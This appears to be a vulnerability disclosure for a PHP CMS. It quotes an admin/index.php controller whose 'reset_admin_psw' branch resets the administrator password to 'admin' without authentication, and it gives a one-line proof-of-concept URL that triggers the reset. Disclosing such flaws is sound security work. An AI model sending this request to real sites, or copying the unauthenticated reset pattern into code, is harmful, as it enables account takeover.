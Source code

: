 I have found the following controller in admin/index.php:
```php
switch ($act) {
  case 'clearUploadfile':
    clearUploadfile();
  break;

  case 'welcome':
    href('cms_welcome.php');
  break;

  case 'logout':
    userLogout('cms_login.php');
  break;

  case 'baiduSend':
    // 生成数组数据
    $y = date("Y");
    $m = date("m");
    $d = date("d");
    $days = mktime(0, 0, 0, $m, $d, $y);
    $daye = mktime(23, 59, 59, $m, $d, $y);
    getDetailBaiduSend($days, $daye);
  break;

  // reset admin password
  case 'reset_admin_psw':
    $psw = psw_hash('admin');
    $sql = "UPDATE user SET u_psw = '$psw' WHERE id = 1";
    $db->query($sql);
    echo $psw;
  break;
```
The branch reset_admin_psw resets the administrator's password directly without authentication.
poc:
```url
http://127.0.0.1:8002/admin/index.php?act=reset_admin_psw
```
![img.png](img.png)